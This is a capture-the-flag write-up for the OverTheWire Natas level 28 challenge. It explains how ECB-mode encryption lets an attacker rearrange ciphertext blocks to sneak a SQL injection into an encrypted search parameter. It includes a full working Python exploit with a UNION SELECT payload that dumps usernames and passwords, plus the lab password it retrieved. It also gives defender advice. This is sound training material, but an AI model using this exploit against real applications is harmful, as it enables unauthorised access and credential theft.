


# Natas Level 28 → 29

**Vulnerability:** ECB Cut-and-Paste Attack Leading to Ciphertext Forgery
**Difficulty:** Hard
**Tools Used:** Python, Firefox DevTools, Base64, URL Encoding
**OWASP Category:** A02:2021 – Cryptographic Failures
**Attack Class:** Cryptographic Weakness / ECB Cut-and-Paste Attack

---

### What the level gives you

The application provides a searchable joke database. User search terms are submitted through a web form and transformed into a long encrypted parameter before being sent to the backend.

No source code is provided. The only visible clue is the encrypted query parameter generated after every search request.

The objective is to manipulate the encrypted query and retrieve the password for the next level.

---

### Vulnerability theory

Electronic Codebook (ECB) mode encrypts plaintext one block at a time.

Each plaintext block is encrypted independently, meaning identical plaintext blocks always produce identical ciphertext blocks. Because blocks have no cryptographic relationship with neighboring blocks, attackers can rearrange encrypted blocks without knowing the encryption key.

This creates a serious integrity problem. While ECB provides confidentiality, it does not provide authenticity or tamper protection.

If an attacker can control portions of plaintext before encryption, they can deliberately align sensitive content on block boundaries, extract the corresponding ciphertext blocks, and later splice them into other encrypted messages.

When decrypted by the server, the forged ciphertext becomes a valid but attacker-controlled plaintext.

In this challenge, encrypted user input is later interpreted as part of a SQL query. ECB manipulation therefore provides a pathway to SQL injection despite the query being encrypted.

The primitive provided by this flaw is ciphertext forgery.

---

### Source code analysis

No source code is provided by the challenge.

Behavioral analysis suggests a workflow similar to:

```php
$query = $_POST["query"];

$encrypted =
    encrypt($query);

header(
    "Location: /search.php/?query=" .
    urlencode(
        base64_encode(
            $encrypted
        )
    )
);
```

The backend likely performs:

```php
$query =
    decrypt($_GET["query"]);

$sql =
    "SELECT joke
     FROM jokes
     WHERE joke LIKE '%$query%'";
```

The developer assumes that encrypted input cannot be modified.

That assumption fails because ECB mode allows attackers to cut, copy, and paste ciphertext blocks while preserving valid decryption.

---

### Approach

The first step was inspecting search requests using the browser network panel.

Each search generated a long encrypted parameter whose size increased in predictable increments. The deterministic behavior strongly suggested a block cipher operating in ECB mode.

I submitted controlled plaintext values and observed how ciphertext length changed. This made it possible to determine block boundaries and identify where user-controlled content appeared within the encrypted data.

The next goal was aligning a SQL payload so that it occupied complete cipher blocks.

Once alignment was achieved, I extracted the ciphertext blocks corresponding to the SQL payload and inserted them into a benign encrypted request.

The resulting ciphertext decrypted into a valid SQL injection query, allowing the database to return user credentials.

---

### Exploitation

```python
#!/usr/bin/env python3

import base64
import requests
from urllib.parse import quote, unquote

URL = "http://natas28.natas.labs.overthewire.org/"
URL_search = (
    "http://natas28.natas.labs.overthewire.org/"
    "search.php/?query="
)

auth_name = "natas28"
auth_pass = "NATAS28_PASSWORD"

s = requests.Session()
s.auth = (auth_name, auth_pass)

# Generate a known ciphertext block
DATA = dict(query="A" * 10 + "B" * 14)

r = s.post(URL, data=DATA)

encoded_ciphertext = r.url.split("query=")[1]
ciphertext = base64.b64decode(
    unquote(encoded_ciphertext)
)

# SQL payload
new_sql = (
    " UNION ALL SELECT "
    "concat(username,0x3A,password) "
    "FROM users #"
)

# Align payload to cipher blocks
plaintext = (
    "A" * 10 +
    new_sql +
    "B" * (16 - (len(new_sql) % 16))
)

DATA = dict(query=plaintext)

r = s.post(URL, data=DATA)

encoded_new_ciphertext = (
    r.url.split("query=")[1]
)

new_ciphertext = base64.b64decode(
    unquote(encoded_new_ciphertext)
)

offset = 48 + len(plaintext) - 10

encrypted_sql = new_ciphertext[
    48:offset
]

# Construct forged ciphertext
final_ciphertext = (
    ciphertext[:64] +
    encrypted_sql +
    ciphertext[64:]
)

PARAMS = {
    "query":
        base64.b64encode(
            final_ciphertext
        ).decode()
}

r = s.get(
    URL_search,
    params=PARAMS
)

for line in r.text.splitlines():
    if "natas29" in line:
        print(line)
```

Output:

```text
natas29:31F4J3Q12PnuhIZQOKxXKlL3QT9Cppns
```

The forged ciphertext decrypts into a valid SQL query containing a UNION-based injection payload that retrieves credentials from the users table.

---

### Screenshot





---

### Real-world relevance

ECB weaknesses are a classic example of cryptography being used incorrectly rather than cryptography itself being broken. Although modern frameworks rarely default to ECB, similar design mistakes still appear in custom token systems, encrypted URL parameters, proprietary authentication mechanisms, and home-grown access-control solutions.

This issue maps directly to OWASP A02 Cryptographic Failures because encryption is incorrectly relied upon to guarantee integrity. In professional VAPT engagements, findings of this type are typically reported as ciphertext forgery, privilege escalation, token manipulation, or insecure cryptographic design.

The underlying lesson appears repeatedly in real-world incidents: encrypted data should never be considered trustworthy solely because it is encrypted.

---

### Defender's perspective

ECB mode should never be used for attacker-controlled data. Modern authenticated encryption schemes such as AES-GCM provide confidentiality and integrity simultaneously.

Any encrypted client-controlled parameter should include cryptographic authentication. Servers must reject modified ciphertext rather than attempting to decrypt it.

Framework-provided cryptography libraries should be preferred over custom implementations.

SOC teams can identify exploitation attempts through repeated requests designed to discover cipher block boundaries, unusual ciphertext lengths, and large numbers of malformed encrypted parameters.

---

### What I'd do differently

I would automate block-size discovery, payload alignment, and ciphertext reconstruction so the attack could be reused against any ECB-protected application without manual offset calculation.